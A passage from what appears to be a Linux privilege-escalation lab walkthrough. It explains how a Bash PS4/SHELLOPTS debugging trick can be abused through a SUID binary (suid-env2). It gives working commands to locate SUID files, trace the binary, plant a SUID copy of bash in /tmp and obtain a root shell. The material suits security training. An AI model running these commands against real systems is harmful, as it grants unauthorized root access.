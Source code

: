 Execute the SUID file for a root shell:

#### &#x20; `/usr/local/bin/suid-env2`

## Abusing Shell Features (#2)

Bash has a debugging mode which can be enabled with the –x command line option, or by modifying the SHELLOPTS environment variable to include xtrace. By default, SHELLOPTS is read only, however the env command allows SHELLOPTS to be set. When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debug statements. This variable can include an embedded command, which will execute every time it is shown. If a SUID file runs another program via Bash (e.g. by using system() ) these environment variables can be inherited. If an SUID file is being executed, this command will execute with the privileges of the file owner. In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root

Find SUID/SGID files on the target:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

The suid-env2 file should execute with root user permissions.

Run strings on the SUID file

#### `strings /usr/local/bin/suid-env2`

the file could be trying to run the /usr/sbin/service program. We can verify this with strace:

#### `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`

Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env 2>&1 | grep service`

This reveals that the system function is being used to execute the service program. Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:

#### `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash file with the -p command line option to get a root shell:

#### `/tmp/rootbash -p`

